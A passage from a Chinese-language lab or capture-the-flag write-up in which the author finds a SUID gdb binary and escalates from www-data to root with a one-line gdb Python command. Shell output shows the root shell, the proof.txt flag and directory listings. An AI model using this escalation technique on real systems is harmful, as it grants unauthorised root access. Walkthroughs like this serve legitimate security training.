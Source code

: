 等下，发现`gdb`有suid，这倒是第一回见，查看一下有无利用的方法：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403180106344.png" alt="image-20240318010006183" style="zoom:50%;" />

阔以！改一下，利用一下。

```bash
gdb -nx -ex 'python import os; os.execl("/bin/bash", "bash", "-p")' -ex quit
```

提取到了`root`，获取一下flag：

```bash
www-data@connection:/$ gdb -nx -ex 'python import os; os.execl("/bin/bash", "bash", "-p")' -ex quit
# <t os; os.execl("/bin/bash", "bash", "-p")' -ex quit
# GNU gdb (Debian 8.2.1-2+b3) 8.2.1
# Copyright (C) 2018 Free Software Foundation, Inc.
# License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
# This is free software: you are free to change and redistribute it.
# There is NO WARRANTY, to the extent permitted by law.
# Type "show copying" and "show warranty" for details.
# This GDB was configured as "x86_64-linux-gnu".
# Type "show configuration" for configuration details.
# For bug reporting instructions, please see:
# <http://www.gnu.org/software/gdb/bugs/>.
# Find the GDB manual and other documentation resources online at:
#     <http://www.gnu.org/software/gdb/documentation/>.

# For help, type "help".
# Type "apropos word" to search for commands related to "word".
bash-5.0# whoami;id
whoami;id
# root
# uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-5.0# cd /root
# cd /root
bash-5.0# ls -la
# ls -la
# total 24
# drwx------  3 root root 4096 Sep 22  2020 .
# drwxr-xr-x 18 root root 4096 Sep 22  2020 ..
# lrwxrwxrwx  1 root root    9 Sep 22  2020 .bash_history -> /dev/null
# -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
# drwxr-xr-x  3 root root 4096 Sep 22  2020 .local
# lrwxrwxrwx  1 root root    9 Sep 22  2020 .mysql_history -> /dev/null
# -rw-r--r--  1 root root  148 Aug 17  2015 .profile
# -rwx------  1 root root   33 Sep 22  2020 proof.txt
bash-5.0# cat proof.txt
# cat proof.txt
# a7c6ea4931ab86fb54c5400204474a39
bash-5.0# cd /home
# cd /home
bash-5.0# ls -la
# ls -la
# total 12
# drwxr-xr-x  3 root       root       4096 Sep 22  2020 .
# drwxr-xr-x 18 root       root       4096 Sep 22  2020 ..
# drwxr-xr-x  3 connection connection 4096 Sep 22  2020 connection
bash-5.0# cd connection 
# cd connection
bash-5.0# ls -la
# ls -la
# total 28
# drwxr-xr-x 3 connection connection 4096 Sep 22  2020 .
# drwxr-xr-x 3 root       root       4096 Sep 22  2020 ..
# lrwxrwxrwx 1 connection connection    9 Sep 22  2020 .bash_history -> /dev/null
```